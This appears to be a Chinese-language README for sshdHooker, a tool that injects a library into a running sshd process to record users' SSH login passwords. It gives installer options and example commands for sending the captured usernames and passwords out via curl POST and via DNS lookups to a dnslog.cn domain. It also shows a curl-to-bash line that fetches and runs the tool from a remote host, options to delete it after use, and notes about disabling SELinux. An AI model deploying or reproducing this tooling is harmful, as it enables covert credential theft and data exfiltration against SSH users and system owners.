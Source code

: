# what's this?

注入SSHD之后就能记录下密码或者做其他操作。


需要关闭selinux

[English](readme.md) | 中文文档

# how to use

## auto installer
密码记录器一键安装，仅暂时支持x64

直接执行命令
```
bash install.sh
```

直接运行后ssh密码登录，记录地址为/tmp/.password.txt，默认so地址为/tmp/hello.so，默认注入器名字为/tmp/.i


其他参数：
```
    -e   修改so文件的路径，默认/tmp/hello.so
    -o   修改注入器的路径，默认/tmp/.i.
    -m   修改mode默认值为0，输出到文件，默认记录地址为/tmp/.password.txt ，如果值为1，则会改为命令行模式
    -p   修改payload，默认值为/tmp/.password.txt，如果mode值为1，则会使用snsprintf来格式化命令并且输出，请确保字符串中包含两个%s，用于格式化用户名和密码
    -d   自动删除，设置为anyone则抓到密码后立刻删除，否则则抓取到设置的指定用户名后删除
    -l   指定libc路径，默认寻址是寻找libc-xxxx.so和libc.so.x的方案，但是不排除会有其他奇奇怪怪的libc名称，所以添加了手动指定功能，详情可以查看/proc/pid/maps里找到libc名字
```
## 例子

https发送密码
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns发送密码并且自动删除
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

远程快速自动部署并自动删除
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.2/sshdHooker.sh | bash -s -- -d anyone
```

## debug

执行
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/.password.txt

# todo

 - 增加x86/arm支持
 - bypass SELINUX